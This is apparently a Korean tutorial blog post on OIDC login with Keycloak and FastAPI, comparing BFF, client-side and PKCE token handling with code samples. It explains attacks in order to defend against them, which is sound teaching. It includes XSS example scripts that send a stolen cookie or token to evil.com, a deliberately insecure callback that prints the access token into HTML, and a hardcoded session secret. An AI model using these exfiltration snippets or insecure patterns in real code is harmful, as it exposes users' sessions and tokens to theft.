


개발자라면 한 번쯤 들어본 요청이죠. "로그인 기능 좀 만들어주세요." 하지만 직접 인증 시스템을 만드는 건 정말 위험합니다. 비밀번호 해싱, 세션 관리, 토큰 갱신... 고려할 게 한두 가지가 아닙니다. 😰

그래서 우리는 **OIDC(OpenID Connect)**라는 검증된 표준을 사용합니다. 이 글에서는 오픈소스 인증 서버인 **Keycloak**과 **FastAPI**를 예제로 OIDC 인증의 동작 원리를 쉽게 설명해보겠습니다.

특히 보안 수준이 다른 세 가지 방식(BFF, Standard, PKCE)을 코드로 비교하면서, **왜 BFF 패턴이 더 안전한지** 알아보겠습니다.

---

## 1. 🔐 OIDC가 뭔가요?

### 간단하게 말하면

**OIDC = "이 사람이 누구인지 확인해주는 표준 프로토콜"** ✅

OAuth 2.0이 "권한 부여(Authorization)"를 담당한다면, OIDC는 그 위에 "신원 확인(Authentication)" 레이어를 추가한 겁니다.

- **OAuth 2.0**: "이 앱이 내 사진에 접근해도 돼?"
- **OIDC**: "로그인한 사람이 누구야? 이메일이 뭐야?"

### Keycloak이란? 🛡️

**Keycloak = OIDC/OAuth 2.0 서버를 쉽게 만들어주는 오픈소스 솔루션**

- 👥 사용자 계정 관리
- 🔑 로그인 페이지 제공
- 🎫 토큰 발급 및 검증
- 🌐 소셜 로그인 연동 (Google, GitHub 등)

한마디로, "인증 관련 귀찮은 일은 다 나한테 맡겨!"라고 말하는 든든한 파트너입니다. 💪

---

## 2. 🔄 OIDC Authorization Code Flow 이해하기

OIDC에는 여러 인증 방식(Flow)이 있지만, 가장 안전하고 널리 쓰이는 건 **Authorization Code Flow**입니다.

### 플로우 다이어그램



### 각 단계 설명

1.  **로그인 시작**: 사용자가 `/login` 버튼 클릭
2.  **Keycloak으로 이동**: 앱이 사용자를 Keycloak의 로그인 페이지로 보냄
3.  **사용자 인증**: Keycloak에서 ID/PW 입력
4.  **Code 발급**: 인증 성공 시 Keycloak이 일회용 "Authorization Code" 발급
5.  **Callback 호출**: Keycloak이 브라우저에게 **302 Redirect** 응답을 보냅니다. 브라우저는 자동으로 우리 앱의 `/callback/bff?code=xxx`로 이동합니다. (⚠️ **중요**: Keycloak이 우리 서버를 직접 호출하는 게 아니라, 브라우저를 통해 간접적으로 전달!)
6.  **Token 교환**: 앱이 Code + Client Secret + Redirect URI 등을 Keycloak에 보내서 진짜 토큰으로 교환
7.  **Token 수령**: Access Token(API 호출용), ID Token(사용자 정보) 받음

### 6단계 상세: Token 교환 시 보내는 정보

Token Endpoint로 보내는 요청에는 여러 파라미터가 포함됩니다:

| 파라미터          | 값                                   | 설명                                              |
| :---------------- | :----------------------------------- | :------------------------------------------------ |
| **grant_type**    | `authorization_code`                 | "Authorization Code 방식으로 토큰 교환할게요"     |
| **code**          | `eyJhbG...` (받은 코드)              | Keycloak이 방금 발급한 일회용 코드 (10초 후 만료) |
| **client_id**     | `myclient`                           | "나는 이 클라이언트야" (신원 확인)                |
| **client_secret** | `abc123...`                          | "이게 내 비밀키야" (인증 - **서버만 알아야 함!**) |
| **redirect_uri**  | `http://localhost:8888/callback/bff` | **우리 앱의 Callback 주소** (검증용)              |

**왜 이렇게 많은 정보를 보내나요?**

- **Code만으로는 부족합니다!** Code는 브라우저를 거쳐서 왔기 때문에 중간에 탈취당했을 수도 있습니다.
- **Client Secret**이 핵심입니다. 이건 서버만 알고 있는 비밀키라서, "진짜 우리 서버가 맞다"는 걸 증명합니다.
- **Redirect URI 검증**: **Keycloak이** 로그인 시작할 때 받은 `redirect_uri`와 지금 Token 교환 시 받은 `redirect_uri`가 같은지 확인합니다. 다르면 토큰 발급을 거부합니다. (CSRF 공격 방지)

> 💡 **중요**: `redirect_uri`는 **우리 FastAPI 앱의 Callback 엔드포인트 주소**입니다. 이 주소는 반드시 Keycloak의 **Client 설정 → Valid Redirect URIs**에 미리 등록되어 있어야 합니다. (아래 "4. Keycloak 설정하기" 섹션 참조)

**Keycloak의 3단계 검증:**

1. ✅ `redirect_uri`가 Client 설정의 **Valid Redirect URIs** 목록에 있는가?
2. ✅ 로그인 시작 시 받은 `redirect_uri`와 Token 교환 시 받은 `redirect_uri`가 **동일**한가?
3. ✅ `client_secret`이 맞는가?

이 모든 검증을 통과해야만 Keycloak이 토큰을 발급해줍니다! 8. **저장**: 토큰을 안전하게 보관 (여기서 BFF vs Standard 차이 발생!) 9. **완료**: 사용자에게 로그인 완료 화면 표시

---

## 3. 🗺️ `.well-known/openid-configuration` - OIDC의 지도

OIDC 서버는 자신의 모든 엔드포인트 정보를 **`.well-known/openid-configuration`**라는 URL에 공개합니다.

### 실제로 확인해보기

브라우저에서 다음 주소를 열어보세요:

```
http://localhost:8080/realms/master/.well-known/openid-configuration
```

이런 JSON이 나옵니다:

```json
{
  "issuer": "http://localhost:8080/realms/master",
  "authorization_endpoint": "http://localhost:8080/realms/master/protocol/openid-connect/auth",
  "token_endpoint": "http://localhost:8080/realms/master/protocol/openid-connect/token",
  "userinfo_endpoint": "http://localhost:8080/realms/master/protocol/openid-connect/userinfo",
  "end_session_endpoint": "http://localhost:8080/realms/master/protocol/openid-connect/logout",
  "introspection_endpoint": "http://localhost:8080/realms/master/protocol/openid-connect/token/introspect",
  ...
}
```

### 주요 엔드포인트 설명

| 엔드포인트                 | 역할               | 언제 사용?                                 |
| :------------------------- | :----------------- | :----------------------------------------- |
| **authorization_endpoint** | 로그인 페이지 주소 | 사용자를 여기로 보내서 로그인 시작         |
| **token_endpoint**         | 토큰 교환소        | Authorization Code를 Access Token으로 교환 |
| **userinfo_endpoint**      | 사용자 정보 조회   | Access Token으로 사용자 프로필 가져오기    |
| **end_session_endpoint**   | 로그아웃           | Keycloak에서도 로그아웃 처리               |
| **introspection_endpoint** | 토큰 검증          | "이 토큰 아직 유효해?" 확인                |

### 코드에서 사용하기

```python
def get_openid_config():
    """Keycloak의 설정 정보를 가져옵니다."""
    config_url = f"{KEYCLOAK_URL}/realms/{REALM_NAME}/.well-known/openid-configuration"
    response = requests.get(config_url)
    return response.json()

# 한 번만 가져와서 캐싱
openid_config = get_openid_config()

# 필요할 때마다 꺼내 쓰기
auth_url = openid_config.get("authorization_endpoint")
token_url = openid_config.get("token_endpoint")
```

**왜 이렇게 하나요?**

- Keycloak 버전이 바뀌어도 코드 수정 불필요
- Realm 이름만 바꾸면 모든 URL 자동 업데이트
- 표준 방식이라 다른 OIDC 서버(Auth0, Okta 등)로 교체 쉬움

### ❓ "Authorization Code를 가져오는 엔드포인트는 없나요?"

**없습니다!** Authorization Code는 별도 API 엔드포인트가 아니라 **`authorization_endpoint`의 리다이렉트 응답**으로 받습니다.

**실제 흐름:**

```python
# 1️⃣ authorization_endpoint로 사용자를 보냄
auth_url = (
    f"{authorization_endpoint}"
    f"?client_id={CLIENT_ID}"
    f"&response_type=code"  # ← "code를 주세요"
    f"&redirect_uri=http://localhost:8888/callback"
)
# 사용자를 여기로 리다이렉트

# 2️⃣ 로그인 후 Keycloak이 브라우저를 redirect_uri로 보냄
# http://localhost:8888/callback?code=eyJhbG...
# ↑ URL 쿼리 파라미터로 code가 옴!

# 3️⃣ Callback에서 code를 추출
@app.get("/callback")
async def callback(code: str):  # ← FastAPI가 자동으로 쿼리 파라미터 파싱
    # 이제 token_endpoint로 code를 token으로 교환
    ...
```

**정리:**

| 엔드포인트               | 역할                                   | 받는 방법                             |
| :----------------------- | :------------------------------------- | :------------------------------------ |
| `authorization_endpoint` | 로그인 + **Authorization Code 발급**   | 리다이렉트 URL의 `?code=xxx` 파라미터 |
| `token_endpoint`         | Authorization Code → Access Token 교환 | POST 요청의 응답 JSON                 |
| `userinfo_endpoint`      | Access Token → 사용자 정보 조회        | GET 요청의 응답 JSON                  |

> 💡 **핵심**: Authorization Code는 **HTTP 응답 본문이 아니라 리다이렉트 URL의 쿼리 파라미터**로 전달됩니다!

---

## 4. ⚙️ Keycloak 설정하기

### Client 생성

1.  Keycloak Admin Console 접속 → **Clients** → **Create client**
2.  **Client ID**: `myclient`
3.  **Client Authentication**: `On` (Confidential Client)
4.  **Authentication Flow**: `Standard flow` 체크

### ⚠️ 중요: Redirect URIs 설정

OIDC의 핵심 보안 메커니즘입니다. **허용된 주소로만** Code와 Token을 전달합니다.

**Keycloak Admin Console → Clients → myclient → Settings → Valid Redirect URIs**에 다음 주소들을 추가하세요:

```
http://localhost:8888/callback/bff
http://localhost:8888/callback/standard
```

**왜 이게 중요한가요?**

- 이 설정이 없다면, 해커가 자기 서버 주소(`http://evil.com/callback`)로 Code를 빼돌릴 수 있습니다.
- Token 교환 시 보내는 `redirect_uri` 파라미터가 여기 등록된 주소와 **정확히 일치**해야만 토큰을 받을 수 있습니다.
- 로그인 시작 시 사용한 `redirect_uri`와 Token 교환 시 보내는 `redirect_uri`가 **동일**해야 합니다.

> 💡 **코드와의 연결**: 위에서 설명한 Token 교환 파라미터 중 `redirect_uri`가 바로 여기 설정한 주소입니다!

### Web Origins (CORS) 설정

Standard 방식에서 자바스크립트가 Keycloak을 직접 호출할 때 필요합니다.

```
http://localhost:8888
```

**CORS 간단 설명:**

- 브라우저는 기본적으로 "다른 도메인으로의 요청"을 차단합니다 (보안상)
- 우리 앱(`localhost:8888`)에서 Keycloak(`localhost:8080`)을 호출하려면
- Keycloak이 "8888에서 오는 요청은 OK!"라고 허락해줘야 합니다
- 그게 바로 Web Origins 설정입니다

---

## 5. 💻 코드 뜯어보기: BFF vs Standard

### 공통 준비 코드

```python
import os
import requests
from fastapi import FastAPI, Request
from starlette.middleware.sessions import SessionMiddleware

app = FastAPI()

# 세션 쿠키 관리 미들웨어 (BFF 패턴의 핵심!)
app.add_middleware(SessionMiddleware, secret_key="supersecretkey")

# 서버 메모리에 세션 저장 (실제론 Redis 사용)
SERVER_SESSIONS = {}

# Keycloak 설정
KEYCLOAK_URL = "http://localhost:8080"
REALM_NAME = "master"
CLIENT_ID = "myclient"
CLIENT_SECRET = "your-secret-here"
```

---

## 6. 🔒 BFF 패턴 (Backend for Frontend) - 권장 방식

### BFF가 뭔가요?

**BFF = Backend for Frontend**

원래는 "프론트엔드를 위한 전용 백엔드"라는 의미로, 모바일 앱이나 웹 앱마다 최적화된 API를 제공하는 아키텍처 패턴입니다.

하지만 **인증 맥락에서의 BFF**는 조금 다른 의미로 사용됩니다:

> **"민감한 정보(토큰)는 브라우저에 노출하지 말고, 백엔드 서버가 대신 관리해주자!"**

### 왜 BFF 패턴이 필요한가요?

전통적인 SPA(Single Page Application) 방식에서는:

1. 브라우저가 로그인 → Access Token 받음
2. 토큰을 `localStorage`나 메모리에 저장
3. API 호출 시마다 토큰을 헤더에 담아서 전송

**문제점**: 브라우저에 토큰이 노출되면 XSS 공격으로 토큰을 탈취당할 수 있습니다! 😱

### BFF 패턴의 핵심 아이디어

```
❌ 기존 방식:
브라우저 ← Access Token 저장 → 위험!

✅ BFF 방식:
브라우저 ← 세션 ID만 (HttpOnly 쿠키)
서버 ← Access Token 저장 → 안전!
```

**동작 원리:**

1. 사용자가 로그인하면 서버가 토큰을 받아서 **서버 메모리(또는 Redis)**에 저장
2. 브라우저에는 **의미 없는 세션 ID**만 쿠키로 전달
3. 이후 요청 시 브라우저는 세션 ID를 보내고, 서버가 실제 토큰을 꺼내서 사용

**결과**: 브라우저는 토큰을 절대 볼 수 없으므로 XSS 공격으로부터 안전합니다! 🛡️

---

## 7. 💻 코드로 보는 BFF 패턴

### 핵심 아이디어

**"토큰은 서버가 관리한다. 브라우저는 세션 ID만 가진다."**

### 1단계: 로그인 시작

```python
@app.get("/login/bff")
async def login_bff():
    """사용자를 Keycloak 로그인 페이지로 보냅니다."""
    auth_endpoint = openid_config.get("authorization_endpoint")

    # Keycloak 로그인 URL 생성
    auth_url = (
        f"{auth_endpoint}"
        f"?client_id={CLIENT_ID}"
        f"&response_type=code"  # "Code를 주세요"
        f"&redirect_uri=http://localhost:8888/callback/bff"  # "여기로 돌려보내주세요"
        f"&scope=openid profile email"  # "이 정보들이 필요해요"
    )

    return RedirectResponse(auth_url)
```

**사용자가 `/login/bff` 클릭 → Keycloak 로그인 페이지로 이동**

### 2단계: Callback 처리 (핵심!)

```python
@app.get("/callback/bff")
async def callback_bff(request: Request, code: str):
    """
    Keycloak이 Code를 들고 여기로 돌아옵니다.
    이제 Code를 Token으로 교환해야 합니다.
    """

    # 1️⃣ Token Endpoint 호출
    # token_endpoint는 .well-known/openid-configuration에서 가져온 주소입니다
    # 예: http://localhost:8080/realms/master/protocol/openid-connect/token
    token_endpoint = openid_config.get("token_endpoint")
    payload = {
        "grant_type": "authorization_code",
        "client_id": CLIENT_ID,
        "client_secret": CLIENT_SECRET,  # 서버만 아는 비밀키
        "code": code,  # 방금 받은 일회용 코드
        "redirect_uri": "http://localhost:8888/callback/bff"
    }

    response = requests.post(token_endpoint, data=payload)
    tokens = response.json()

    # 2️⃣ 토큰 추출
    access_token = tokens.get("access_token")
    id_token = tokens.get("id_token")

    # 3️⃣ 사용자 정보 가져오기
    userinfo_endpoint = openid_config.get("userinfo_endpoint")
    headers = {"Authorization": f"Bearer {access_token}"}
    user_info = requests.get(userinfo_endpoint, headers=headers).json()

    # 4️⃣ 🔐 핵심: 토큰을 서버 메모리에 저장!
    session_id = str(uuid.uuid4())  # 랜덤 ID 생성
    SERVER_SESSIONS[session_id] = {
        "access_token": access_token,
        "id_token": id_token,
        "user_info": user_info
    }

    # 5️⃣ 브라우저에는 세션 ID만 쿠키로 전달
    request.session["session_id"] = session_id

    return RedirectResponse("/profile/bff")
```

**무슨 일이 일어났나요?**

1.  Code를 받음 (일회용, 10초 후 만료)
2.  Code를 Keycloak에 보내서 진짜 Token으로 교환
3.  Token을 **서버 메모리**에 숨김
4.  브라우저에는 **의미 없는 세션 ID**만 쿠키로 줌

### 3단계: 보호된 페이지 접근

```python
@app.get("/profile/bff")
async def profile_bff(request: Request):
    """로그인한 사용자만 볼 수 있는 페이지"""

    # 1️⃣ 쿠키에서 세션 ID 가져오기
    session_id = request.session.get("session_id")

    # 2️⃣ 서버 메모리에서 실제 데이터 찾기
    user_data = SERVER_SESSIONS.get(session_id)

    if not user_data:
        return HTMLResponse("로그인이 필요합니다!", status_code=401)

    # 3️⃣ 사용자 정보 표시
    user_info = user_data.get("user_info")
    return f"""
    <h1>환영합니다, {user_info.get('preferred_username')}님!</h1>
    <p>이메일: {user_info.get('email')}</p>
    <p>세션 ID (브라우저가 보는 것): {session_id}</p>
    <p>실제 토큰 (서버만 보는 것): {user_data.get('access_token')[:20]}...</p>
    """
```

### 왜 안전한가요?

| 항목          | BFF 패턴         | 설명                                           |
| :------------ | :--------------- | :--------------------------------------------- |
| **토큰 위치** | 서버 메모리      | 브라우저에서 절대 볼 수 없음                   |
| **쿠키 내용** | 세션 ID만        | 의미 없는 랜덤 문자열                          |
| **XSS 공격**  | 안전             | 악성 스크립트가 쿠키를 읽어도 토큰은 못 가져감 |
| **쿠키 속성** | HttpOnly, Secure | 자바스크립트 접근 차단 + HTTPS 전송만 허용     |

### 쿠키 보안 속성 상세 설명

**HttpOnly 속성**

```python
# SessionMiddleware가 자동으로 HttpOnly 쿠키 생성
request.session["session_id"] = session_id
```

- **역할**: 자바스크립트에서 `document.cookie`로 쿠키를 읽지 못하게 차단
- **방어하는 공격**: **XSS (Cross-Site Scripting)**
- **공격 시나리오**:
  ```javascript
  // 해커가 악성 스크립트를 주입했다면?
  const cookie = document.cookie; // ❌ HttpOnly 쿠키는 읽을 수 없음!
  fetch("https://evil.com/steal", { body: cookie }); // 실패
  ```
- **결과**: 악성 스크립트가 실행되더라도 세션 쿠키를 탈취할 수 없습니다.

**Secure 속성**

```python
# 운영 환경에서는 Secure 속성 필수
app.add_middleware(
    SessionMiddleware,
    secret_key="...",
    https_only=True  # Secure 속성 활성화
)
```

- **역할**: HTTPS 연결에서만 쿠키 전송 허용
- **방어하는 공격**: **MITM (Man-in-the-Middle, 중간자 공격)**
- **공격 시나리오**:
  - 사용자가 카페 공용 WiFi 사용
  - 해커가 네트워크 패킷을 가로채서 쿠키 탈취 시도
  - ✅ Secure 속성이 있으면 HTTP 연결에서는 쿠키가 전송되지 않음
- **결과**: 암호화되지 않은 연결에서는 쿠키가 노출되지 않습니다.

**두 속성을 함께 사용하는 이유**

- **HttpOnly**: 브라우저 내부(자바스크립트)의 공격 방어
- **Secure**: 네트워크 전송 중 공격 방어
- **조합 효과**: 클라이언트와 네트워크 양쪽에서 쿠키 보호!

---

## 7. Standard 패턴 (Client-Side) - ⚠️ 위험한 방식

### 핵심 아이디어

**"토큰을 브라우저에 직접 전달한다."**

### Callback 처리

```python
@app.get("/callback/standard")
async def callback_standard(code: str):
    """토큰을 받아서 브라우저에 그대로 노출시킵니다."""

    # Token 교환 (BFF와 동일)
    token_endpoint = openid_config.get("token_endpoint")
    payload = {
        "grant_type": "authorization_code",
        "client_id": CLIENT_ID,
        "client_secret": CLIENT_SECRET,
        "code": code,
        "redirect_uri": "http://localhost:8888/callback/standard"
    }

    response = requests.post(token_endpoint, data=payload)
    access_token = response.json().get("access_token")

    # ⚠️ 위험: 토큰을 HTML에 그대로 노출!
    return f"""
    <html>
    <body>
        <h1>로그인 완료!</h1>
        <p>당신의 Access Token:</p>
        <textarea id="token" rows="5" cols="80">{access_token}</textarea>

        <script>
            // 자바스크립트가 토큰을 읽을 수 있음!
            const token = document.getElementById('token').value;

            // API 호출 시 사용
            fetch('/api/userinfo', {{
                headers: {{ 'Authorization': 'Bearer ' + token }}
            }});
        </script>
    </body>
    </html>
    """
```

### 무엇이 문제인가요?

**XSS(Cross-Site Scripting) 공격에 취약합니다.**

만약 해커가 악성 스크립트를 페이지에 주입하면:

```javascript
// 해커의 악성 스크립트
const stolenToken = localStorage.getItem("access_token");
fetch("https://evil.com/steal", {
  method: "POST",
  body: JSON.stringify({ token: stolenToken }),
});
```

이렇게 토큰을 훔쳐갈 수 있습니다.

---

---

## 8. 🔐 PKCE (Proof Key for Code Exchange) - 모바일/SPA를 위한 보안 강화

### PKCE가 뭔가요?

**PKCE = "Authorization Code를 가로채도 사용할 수 없게 만드는 추가 보안 장치"**

Authorization Code Flow의 약점을 보완하기 위해 만들어진 확장 기능입니다.

### 왜 필요한가요?

**문제 상황**: 모바일 앱이나 SPA(Single Page Application)에서는 `client_secret`을 안전하게 보관할 수 없습니다.

- 모바일 앱: APK/IPA 파일을 디컴파일하면 Secret 노출
- SPA: 브라우저 JavaScript 코드에 Secret을 넣을 수 없음

따라서 **Public Client** (Secret 없이 동작)로 만들어야 하는데, 이 경우 Authorization Code가 탈취되면 누구나 토큰으로 교환할 수 있습니다! 😱

### PKCE의 동작 원리



### 단계별 상세 설명

**0단계: 사용자가 로그인 시작**

```
사용자가 앱/웹사이트에서 "로그인" 버튼 클릭
→ 이때부터 PKCE 플로우 시작!
```

**1-2단계: 앱이 PKCE 준비 (사용자 클릭 직후)**

```javascript
// 사용자가 로그인 버튼을 클릭하면 즉시 실행
function handleLoginClick() {
  // 1. code_verifier 생성
  const code_verifier = generateRandomString(128);
  // 예: "dBjftJeZ4CVP-mB92K27uhbUJU1p1r_wW1gFWFOEjXk"

  // 2. code_challenge 생성
  const code_challenge = sha256(code_verifier);
  // 예: "E9Melhoa2OwvFrEMTJguCHaoeK1t8URWbuGJSstw-cM"

  // verifier는 앱/브라우저에 보관 (나중에 Token 교환 시 사용)
  sessionStorage.setItem("pkce_verifier", code_verifier);

  // 3단계로 진행...
}
```

**타이밍 정리:**

- **앱 실행 시**: PKCE 준비 ❌ (아직 안 함)
- **로그인 버튼 클릭 시**: PKCE 준비 ✅ (바로 생성!)
- **매 로그인마다**: 새로운 verifier/challenge 생성 (재사용 불가)

**3단계: 로그인 시작 (code_challenge 전달)**

```
앱이 사용자를 Keycloak으로 리다이렉트:
https://keycloak/auth?
  client_id=myapp
  &response_type=code
  &redirect_uri=http://myapp/callback
  &code_challenge=E9Melhoa2OwvFrEMTJguCHaoeK1t8URWbuGJSstw-cM  ← 해시값 전달
  &code_challenge_method=S256  ← SHA256 사용
```

**4-5단계: 사용자 인증 + code_challenge 저장**

- 사용자가 Keycloak 로그인 페이지에서 **ID/PW 입력**
- Keycloak이 사용자 인증 (DB에서 비밀번호 확인)
- ✅ 인증 성공 시, Keycloak은 **code_challenge를 내부에 저장** (Authorization Code와 연결)

**6-7단계: Authorization Code 발급**

```
Keycloak이 브라우저를 앱으로 리다이렉트:
http://myapp/callback?code=SplxlOBeZQQYbYS6WxSbIA
```

**7단계 상세: Callback에서 code_verifier 찾기**

**질문**: "Callback으로 돌아왔을 때, 어떻게 원래의 `code_verifier`를 알 수 있나요?"

**답변**: 1-2단계에서 **이미 저장해뒀기 때문**입니다!

```javascript
// === 1-2단계에서 저장 ===
function handleLoginClick() {
  const code_verifier = generateRandomString(128);
  const code_challenge = sha256(code_verifier);

  // ✅ 브라우저 저장소에 보관!
  sessionStorage.setItem("pkce_verifier", code_verifier);

  // Keycloak으로 리다이렉트...
}

// === 7단계: Callback에서 꺼내기 ===
function handleCallback() {
  // URL에서 code 추출
  const urlParams = new URLSearchParams(window.location.search);
  const code = urlParams.get("code"); // "SplxlOBeZQQYbYS6WxSbIA"

  // ✅ 저장소에서 verifier 꺼내기!
  const code_verifier = sessionStorage.getItem("pkce_verifier");

  // 8단계로 진행 (Token 교환)...
}
```

**저장 위치:**

- **웹 브라우저**: `sessionStorage` 또는 `localStorage`
- **모바일 앱**: 앱 내부 메모리 또는 Secure Storage (Keychain/KeyStore)

**보안 고려사항:**

- `code_verifier`는 **절대 URL에 포함되지 않음** (브라우저 히스토리에 남으면 위험)
- 앱/브라우저 내부에만 저장
- Token 교환 후 즉시 삭제 권장

**8단계: Token 교환 (code_verifier 전달)**

```http
POST /token
Content-Type: application/x-www-form-urlencoded

grant_type=authorization_code
&code=SplxlOBeZQQYbYS6WxSbIA
&redirect_uri=http://myapp/callback
&client_id=myapp
&code_verifier=dBjftJeZ4CVP-mB92K27uhbUJU1p1r_wW1gFWFOEjXk  ← 원본 전달
```

**9단계: Keycloak의 검증 과정**

```python
# Keycloak 내부 로직 (의사 코드)
received_verifier = "dBjftJeZ4CVP-mB92K27uhbUJU1p1r_wW1gFWFOEjXk"
stored_challenge = "E9Melhoa2OwvFrEMTJguCHaoeK1t8URWbuGJSstw-cM"

# 받은 verifier를 해시
calculated_challenge = sha256(received_verifier)

# 처음 받았던 challenge와 비교
if calculated_challenge == stored_challenge:
    # ✅ 일치! 토큰 발급
    return access_token
else:
    # ❌ 불일치! 거부
    return error
```

### Keycloak이 code_challenge를 사용하는 방법

1. **로그인 시작 시**: `code_challenge`를 받아서 Authorization Code와 함께 **임시 저장**
2. **Token 교환 시**:
   - 앱이 보낸 `code_verifier`를 SHA256 해시
   - 저장해둔 `code_challenge`와 비교
   - 일치하면 → "이 앱이 처음 로그인 시작한 앱이 맞구나!" → 토큰 발급
   - 불일치하면 → "Code를 탈취한 해커구나!" → 거부

### 왜 안전한가요?

**공격 시나리오:**

1. 해커가 네트워크를 감청해서 **Authorization Code**를 가로챔
2. 해커가 Code를 사용해서 토큰 교환 시도
3. 하지만 `code_verifier`를 모름 (앱 내부에만 있음)
4. Keycloak이 검증 실패 → 토큰 발급 거부 ✅

**핵심**: `code_challenge`는 공개되어도 괜찮지만 (해시값이라 역산 불가), `code_verifier`는 앱만 알고 있어야 합니다!

### BFF vs Standard vs PKCE 비교

| 특징                   | BFF (서버 기반)       | PKCE (클라이언트 기반) | Standard (위험)                |
| :--------------------- | :-------------------- | :--------------------- | :----------------------------- |
| **토큰 저장 위치**     | 서버 메모리/Redis     | 브라우저 메모리        | 브라우저 (localStorage/메모리) |
| **브라우저가 보는 것** | 세션 ID (무의미)      | Access Token           | Access Token                   |
| **Client Secret**      | 필요 (서버에 보관)    | 불필요 (Public Client) | 필요 (하지만 노출 위험)        |
| **Code 탈취 방어**     | Secret으로 방어       | PKCE로 방어            | ❌ 방어 불가                   |
| **XSS 공격 시**        | ✅ 토큰 탈취 불가     | ⚠️ 토큰 탈취 가능      | ❌ 토큰 탈취 가능              |
| **MITM 공격 시**       | ✅ Secure 쿠키로 방어 | ⚠️ HTTPS 필수          | ❌ 토큰 노출 위험              |
| **구현 난이도**        | 중간 (세션 관리)      | 중간 (PKCE 로직)       | 낮음                           |
| **적합한 환경**        | **웹 서비스 (SSR)**   | **모바일 앱, SPA**     | 학습/테스트만                  |
| **보안 수준**          | 🥇 최고               | 🥈 높음                | 🚫 낮음                        |

### 언제 무엇을 사용해야 하나요?

**✅ BFF 패턴 (가장 권장)**

- 백엔드 서버가 있는 웹 애플리케이션
- SSR(Server-Side Rendering) 환경
- 최고 수준의 보안이 필요한 경우

**✅ PKCE**

- 네이티브 모바일 앱 (iOS, Android)
- SPA (React, Vue, Angular) 단독 배포
- 백엔드 서버 없이 클라이언트만 있는 경우
